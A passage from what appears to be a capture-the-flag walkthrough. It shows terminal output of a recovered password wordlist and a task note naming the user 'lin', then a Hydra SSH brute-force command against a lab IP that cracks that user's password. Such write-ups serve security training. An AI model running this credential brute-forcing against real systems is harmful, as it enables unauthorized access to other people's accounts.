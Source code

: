 13. `cat {FILE2}.txt` to display the contents of the second file we found, which was task.txt, which display a task list, as well as a to us a potential username associated with the target's server
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

# Vulnerability Exploitation
> Brute Forcing Using Hydra
14. `hydra -l lin -P {FILE1}.txt ssh://{TARGET IP}` to attempt to crack this user's password using the **locks.txt** file that we found on the target's FTP server, which turned out that one of the strings within that text file was the password that our target user used to connect to the target via SSH
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ hydra -l lin -P locks.txt 10.10.2.76 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2023-06-26 20:20:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.2.76:22/
[22][ssh] host: 10.10.2.76   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-06-26 20:20:54
```
